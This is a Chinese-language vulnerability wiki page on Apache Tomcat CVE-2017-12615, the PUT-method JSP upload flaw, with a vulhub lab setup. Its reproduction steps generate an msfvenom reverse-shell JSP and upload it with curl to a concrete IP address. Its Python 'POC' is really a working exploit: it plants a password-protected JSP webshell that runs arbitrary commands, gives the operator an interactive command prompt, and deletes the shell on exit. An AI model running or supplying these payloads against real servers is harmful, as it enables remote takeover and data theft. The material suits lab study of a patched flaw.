



# Apache Tomcat 远程代码执行漏洞 CVE-2017-12615

## 漏洞描述

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，其中就有远程代码执行漏洞(CVE-2017-12615)。当 启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

## 漏洞影响

```
Apache Tomcat 7.0.0 - 7.0.81
```

## 环境搭建

```plain
https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:8080/ 正常即可


## 漏洞复现

漏洞产生的主要原因来自于**conf/web.xml**文件配置错误,readonly开启了false,导致可以使用**PUT/DELETE**请求方法操作文件


**msf**生成一个**jsp**木马

```plain
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp
```

利用PUT方法上传木马

```plain
curl -v -X PUT --data-binary @shell.jsp "http://81.68.139.186:8080/shell.jsp/"
```

- 注意 http://xxx.xxx.xxx.xxx:8080/shell.jsp/中的最后一个"/"字符很重要

发现成功上传木马文件



访问文件即可反弹一个shell



也可以用**DELETE**请求方法删除文件


## 漏洞POC

- 代码只用于检测漏洞，反弹shell参照上方

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Tomcat 7.0.0 - 7.0.81                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2017-12615.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8080                            \033[0m')
    print('+  \033[36mCmd    >>> shell                                                  \033[0m')
    print('+  \033[36mCmd    >>> exit(退出交互并删除webshell)                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    md5_filename = str(random.randint(1,999)).encode("utf-8")
    file_name = hashlib.md5(md5_filename).hexdigest()
    vuln_put_url = target_url + "/" + file_name + ".jsp/"

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = """
    <%
    if("peiqi".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;          
        byte[] b = new byte[1024];                 
        while((a=in.read(b))!=-1){
            out.println(new String(b));          
        }
    } 
    %>
    """
    try:
        response = requests.request("PUT", url=vuln_put_url, data=data, headers=headers, timeout=30)
        if response.status_code == 201 or response.status_code == 201:
            print("\033[32m[o] 含有CVE-2017-12615漏洞，成功上传shell，文件名为{}.jsp,响应为{}\033[0m".format(file_name,response.status_code))
            return file_name
        else:
            print("\033[31m[x] 漏洞利用失败,PUT方法关闭 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 漏洞利用失败,PUT方法关闭 \033[0m")
        sys.exit(0)

def POC_2(target_url, file_name, cmd):
    vuln_cmd_url = target_url + "/" + file_name + ".jsp?" + "pwd=peiqi&cmd=" + cmd
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_cmd_url, headers=headers,timeout=30)
        if response.status_code == 200:
            print("\033[32m[o] 成功执行命令,响应为:\n\033[0m",response.text)
        else:
            print("\033[31m[x] 漏洞利用失败,命令无法执行 \033[0m")
            sys.exit(0)
    except:
            print("\033[31m[x] 漏洞利用失败,命令无法执行 \033[0m")
            sys.exit(0)

def POC_3(target_url, file_name):
    vuln_delect_url = target_url + "/" + file_name + ".jsp/"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.request("DELETE", url=vuln_delect_url, headers=headers, timeout=30)
        if response.status_code == 200 or 201:
            print("\033[32m[o] 成功删除shell，文件名为{}.jsp,响应为{}\033[0m".format(file_name,response.status_code))
            return file_name
        else:
            print("\033[31m[x] 删除失败 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 删除失败 \033[0m")
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_name = POC_1(target_url)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            POC_3(target_url, file_name)
            sys.exit(0)
        else:
            POC_2(target_url, file_name, cmd)
```

